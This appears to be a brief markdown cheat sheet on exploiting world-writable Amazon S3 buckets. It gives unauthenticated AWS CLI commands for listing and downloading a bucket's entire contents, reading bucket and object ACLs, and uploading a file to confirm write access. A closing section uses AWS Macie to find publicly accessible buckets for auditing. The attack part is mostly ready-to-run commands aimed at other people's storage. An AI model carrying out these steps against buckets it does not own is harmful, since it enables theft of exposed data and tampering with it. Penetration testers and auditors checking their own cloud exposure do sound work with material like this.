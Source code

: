 # World-Writable S3 Buckets Exploitation

### Steps and commands

 - mkdir TARGET_BUCKET_NAME; cd TARGET_BUCKET_NAME/ (Create a directory to possibly download all assets within the bucket locally)

 - aws s3 ls s3://BUCKET_NAME-BUCKET_ID --recursive --no-sign-request (List all content of the bucket recursively WITHOUT authentication)

 -  aws s3 cp s3://BUCKET_NAME-BUCKET_ID . --recursive --no-sign-request (Download all bucket contents at your current directory)

 -  aws s3api get-bucket-acl --bucket BUCKET_NAME-BUCKET_ID --no-sign-request (Check for misconfigured bucket ACLs. This is optional)

 -  aws s3api get-object-acl --bucket BUCKET_NAME-BUCKET_ID --key EXAMPLE/FILE.TXT --no-sign-request (Likewise for file ACLs)

 -  cd EXAMPLE/ (Go to a directory of our downloaded bucket content)

 - echo test > test (Create a test file to test for World-Writable Access in the bucket)

 - aws s3 cp test s3://BUCKET_NAME-BUCKET_ID/EXAMPLE/test --no-sign-request (Upload our test file to the bucket)

 - aws s3 cp test s3://BUCKET_NAME-BUCKET_ID/EXAMPLE/test - --no-sign-request (Verify that our file has been uploaded successfully)

## Alternate method to check for world read/writeable S3 Buckets: AWS macie2

 - aws macie2 describe-buckets --region REGION  --criteria '{"publicAccess.effectivePermission":{"eq":["PUBLIC"]}}' --query 'buckets[*].{BucketName: bucketName, AllowsPublicReadAccess: publicAccess.permissionConfiguration.bucketLevelPermissions.bucketPolicy.allowsPublicReadAccess, AllowsPublicWriteAccess: publicAccess.permissionConfiguration.bucketLevelPermissions.bucketPolicy.allowsPublicWriteAccess}' --output table




